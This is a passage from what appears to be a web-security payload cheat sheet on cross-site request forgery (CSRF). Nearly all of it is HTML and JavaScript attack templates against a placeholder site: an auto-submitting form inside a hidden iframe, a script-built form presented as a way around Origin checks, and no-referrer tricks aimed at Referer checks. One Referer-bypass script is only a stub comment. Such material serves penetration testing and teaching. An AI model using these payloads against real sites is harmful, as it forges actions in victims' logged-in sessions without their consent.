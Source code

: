 ```html
        form.submit();
    });
</script>
```

### CSRF using iframes

```html
<!-- Hidden iframe to maintain/establish victim's session -->
<iframe style="display:none" name="csrf-frame"></iframe>

<!-- Form targeting the hidden iframe -->
<form action="https://target.com/change_settings" method="POST" target="csrf-frame" id="csrf-form">
    <input type="hidden" name="setting1" value="malicious_value">
</form>

<script>document.getElementById("csrf-form").submit();</script>
```

## CSRF Bypass Techniques

### Bypass Same-Origin Policy Check

```html
<!-- If the target checks the origin header -->
<script>
    // Creating a form without the Origin header
    var form = document.createElement('form');
    form.action = 'https://target.com/api/action';
    form.method = 'POST';
    
    var input = document.createElement('input');
    input.type = 'hidden';
    input.name = 'parameter';
    input.value = 'malicious_value';
    
    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
</script>
```

### Bypass Referer Check

```html
<!-- Some browsers don't send Referer headers when loading images or switching protocols -->
<meta name="referrer" content="no-referrer">
<script>
    // Code to submit form
</script>

<!-- Or using rel="noreferrer" -->
<a href="https://target.com/action?param=malicious" rel="noreferrer" target="_blank">Click me</a>
```
